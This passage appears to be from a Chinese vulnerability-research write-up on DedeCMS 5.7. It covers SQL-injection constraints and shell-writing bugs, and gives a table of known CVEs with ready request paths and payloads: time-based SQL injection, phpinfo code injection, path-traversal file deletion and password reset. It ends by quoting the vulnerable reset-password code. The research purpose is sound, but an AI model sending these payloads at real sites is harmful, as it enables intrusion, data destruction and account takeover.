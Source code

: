 (3) sql注入限制
DedeCMS对传入的`'`都进行了转译，变为`\'`。所以select型等注入无法闭合`'`而无法构造payload。所以挖掘的sql注入漏洞大多是IN型的注入，如
```
SELECT nid,url FROM `#@__co_htmls` WHERE aid IN($ids) 
```
IN型注入的payload可用`(select%20*%20from%20(select(sleep(5)))iTpw)`或者`ELT(3337>3336,SLEEP(2))`

Mysql的ELT函数`ELT(N,str1,str2,str3,...)`，如果`N=1`返回`str1`，如果`N=2`返回`str2`以此类推

(4) 写shell漏洞
DedeCMS中想要写shell，需要写入到php文件，或可以被`require_once()`包含的文件。`article_template_rand.php`等对应的是写入到php文件，`sys_verifies.php`则是写入到可以被`require_once()`包含的`modifytmp.inc`文件中。

DedeCMS中包含很多的模板或配置文件，如`/template.rand.php`，根据参数执行保存配置、清除模板等操作。而在操作文件的过程中，一旦写入文件的内容可控，就可以将该php改写为恶意文件。


## 5.7版本历史漏洞
|                        漏洞名称                        |                           访问路径                           |
| :----------------------------------------------------: | :----------------------------------------------------------: |
| 会员中心任意密码修改漏洞 | `/member/resetpassword.php` |
| 任意用户登陆漏洞 | `/member/index.php?uid=0001` |
| 管理员密码重置漏洞 | 会员中心任意密码修改漏洞+任意用户登陆漏洞组合 |
| article_add.php文件上传漏洞 | `/member/article_add.php` |
| sys_verifies.php写文件漏洞 | `/dede/sys_verifies.php?action=getfiles&refiles[]=\%22;phpinfo();die();//` |
| album_add.php文件上传漏洞(CVE-2019-8362) | `/dede/album_add.php` |
| article_coonepage_rule.php sql注入漏洞(CVE-2022-23337) | `/dede/article_coonepage_rule.php?action=del&ids=ELT(3337>3336,SLEEP(2)` |
| co_do.php sql注入漏洞(CVE-2018-19061) | `/dede/co_do.php?clshash=true&dopost=clear&ids=(select%20*%20from%20(select(sleep(3)))iTpw)'` |
| file_manage_main.php 任意文件上传漏洞 | `/dede/file_manage_main.php?activepath=` |
| mail_file_manage.php 任意文件删除漏洞 | `/dede/mail_file_manage.php?fmdo=del&filename=/mytest/cmd.php` |
| article_template_rand.php 写shell漏洞 | `/dede/article_template_rand.php?dopost=save&templates=<? phpinfo();?>&token[]=1` |
| article_string_mix.php 写shell漏洞 | `/dede/article_string_mix.php?dopost=save&allsource=<? phpinfo();?>&token[]=1` |
| file_manage_control.php 任意文件删除漏洞 | `/dede/file_manage_control.php?fmdo=del&filename=../dtest.php` |

## 会员中心任意密码修改漏洞
漏洞定位`/member/resetpassword.php`，该文件主要用于密码重置，其中部分代码如下：
```php
if(empty($dopost)) $dopost = "";
$id = isset($id)? intval($id) : 0;

if($dopost == ""){}
elseif($dopost == "getpwd"){} // 获取验证码，验证邮箱/用户名，以邮件/安全问题的方式找回密码
else if($dopost == "safequestion"){
    $mid = preg_replace("#[^0-9]#", "", $id);
    $sql = "SELECT safequestion,safeanswer,userid,email FROM #@__member WHERE mid = '$mid'";
    $row = $db->GetOne($sql);
    if(empty($safequestion)) $safequestion = '';
    if(empty($safeanswer)) $safeanswer = '';
    if($row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer){ 
        sn($mid, $row['userid'], $row['email'], 'N');
        exit();
    }...
} // 安全问题回答校验
else if($dopost == "getpasswd"){} // 修改密码
```